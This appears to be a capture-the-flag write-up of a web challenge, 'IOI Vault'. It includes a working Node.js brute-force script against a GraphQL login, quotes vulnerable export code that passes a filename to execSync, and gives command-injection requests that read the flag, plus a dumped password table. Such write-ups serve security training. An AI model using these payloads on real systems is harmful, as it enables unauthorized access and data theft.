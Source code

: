 ## IOI Vault
```
Aech discovered that Nolan Sorrento uses an I0I password manager to store his Oasis rig password. Can you help Parzival and Aech extract Sorrento's Oasis rig password?
Nolan Sorrento in Ready Player One
Does Nolan Sorrento own IOI?
Sorrento is the head of Innovative Online Industries, also known as IOI, the world's largest ISP.
Wade’s wireless VR headset. “Ready Player One” doesn’t waste a whole lot of time explaining how gadgets used in the film work, but Wade’s headset, which is also used by most other characters, essentially looks like a pair of fancy ski goggles. Light, wireless, and apparently working without any external hardware, it is capable of transporting you to the virtual world of the Oasis where ever you are
Aech (pronounced as the letter 'H') is a main character in Ernest Cline's Ready Player One. Aech has been Wade's best friend for years
Wade Owen Watts, under the virtual name Parzival, is the main protagonist of Erenest Cline's novel and Steven Spielberg's movie Ready Player One. 
Also in Fallout 3 The Vault 101 entrance password is "Amata". 
```
But absolutely none of that is relevant to the challenge, so, feel free to not read it :D

Looking at the source all user passwords were generated with a funny bash oneliner:
```bash
function genPass() {
    echo -n $RANDOM | md5sum | head -c 32
}
```

Of course $RANDOM deoesn't have enough entropy to be safe to use as a password.
```bash
while true;do echo $RANDOM;done
```

So we just have to bruteforce IDOR that, I did it in node for learning sake, but you could do that with the language of your choice

```js
const fetch = require('node-fetch');
const crypto = require('crypto');


async function login() {

  for (let i = 0; i < 32767; i++) {

    const user = 'admin';
    //const hash = 'c8443b6213aa517f2d701ebf845fdae4';
    //const pass = '29073';
    const pass = i.toString();
    const hash = crypto.createHash('md5').update(pass).digest('hex');

    const query = `
      mutation($username: String!, $password: String!) {
        LoginUser(username: $username, password: $password) {
          message,
          token
        }
      }
    `;

    const variables = {
      'username': user,
      'password': hash
    };

    const endpoint = "http://64.227.37.161:32741/graphql";

    const response = await fetch(endpoint, {
      method: 'POST',
      headers: { 'Content-Type': 'application/json' },
      body: JSON.stringify({ query, variables })
    });

    const res = await response.json();
    const jsonString = JSON.stringify(res);
    console.log(pass + ' - ' + hash);

    if (jsonString.includes('User logged in successfully!')) {
      console.log(res);
      process.exit(0);
    }
  }
}

login();
```

```bash
node brute.js
...
SNIP
...
1551 - 4e6cd95227cb0c280e99a195be5f6615
1552 - 351b33587c5fdd93bd42ef7ac9995a28
1553 - 18ead4c77c3f40dabf9735432ac9d97a
1554 - 98986c005e5def2da341b4e0627d4712
{
  data: {
    LoginUser: {
      message: 'User logged in successfully!',
      token: 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaXNfYWRtaW4iOjEsImlhdCI6MTY4MjQ4ODU2OH0.XJ4DiaIw2GzNnR3DWssvT7y06ziq0aWuKi-keJcPUaw'
    }
  }
}
```

So now we can login as admin with that token, and admin has access to an additionnal feature in the webapp, to dump the db, how convenient
```
router.get('/admin/export', AuthMiddleware, async (req, res, next) => {
    if (!req.user.is_admin) return res.redirect('/dashboard');

    const { filename } = req.query;

    if (filename) {
        try {
            execSync(`mysqldump -h 127.0.0.1 -uioi_vault -pioi_vault --add-drop-table ioi_vault > /opt/exports/${filename}.sql`);

            if (existsSync(`/opt/exports/${filename}.sql`)) {
                return res.download(`/opt/exports/${filename}.sql`, `${filename}.sql`);
            }
        }
        catch (e) {
            return res.status(500).send(response('Something went wrong!'));
        }
    }
```

And it's pretty obviously vulnerable to command injection, so
```
GET /admin/export?filename=ioivault_dump;sleep 5; HTTP/1.1
```

pop pop
```
GET /admin/export?filename=ioivault_dump;mysql -h 127.0.0.1 -uioi_vault -pioi_vault -Dioi_vault -e "update saved_passwords set note='$(/readflag)' where owner='admin';"; HTTP/1.1
```

And we just have to use our database dumping as a service (DDaS) for the exfiltration
```
GET /admin/export?filename=ioivault_dump HTTP/1.1
```

And it's looting time
```sql
--
-- Dumping data for table `saved_passwords`
--

LOCK TABLES `saved_passwords` WRITE;
/*!40000 ALTER TABLE `saved_passwords` DISABLE KEYS */;
INSERT INTO `saved_passwords` VALUES (1,'admin','Web','ioivault.htb','admin','admin123','HTB{1d0r5_4r3_3v3rywh3r3!!!}'),(2,'louisbarnett','Web','spotify.com','louisbarnett','YMgC41@)pT+BV','student sub'),(3,'louisbarnett','Email','dmail.com','louisbarnett@dmail.com','L-~I6pOy42MYY#y','private mail'),(4,'ninaviola','Web','office365.com','ninaviola1','OfficeSpace##1','company email'),(5,'alvinfisher','App','Netflix','alvinfisher1979','efQKL2pJAWDM46L7','Family Netflix'),(6,'alvinfisher','Web','twitter.com','alvinfisher1979','7wYz9pbbaH3S64LG','old twitter account');
/*!40000 ALTER TABLE `saved_passwords` ENABLE KEYS */;
UNLOCK TABLES;
```
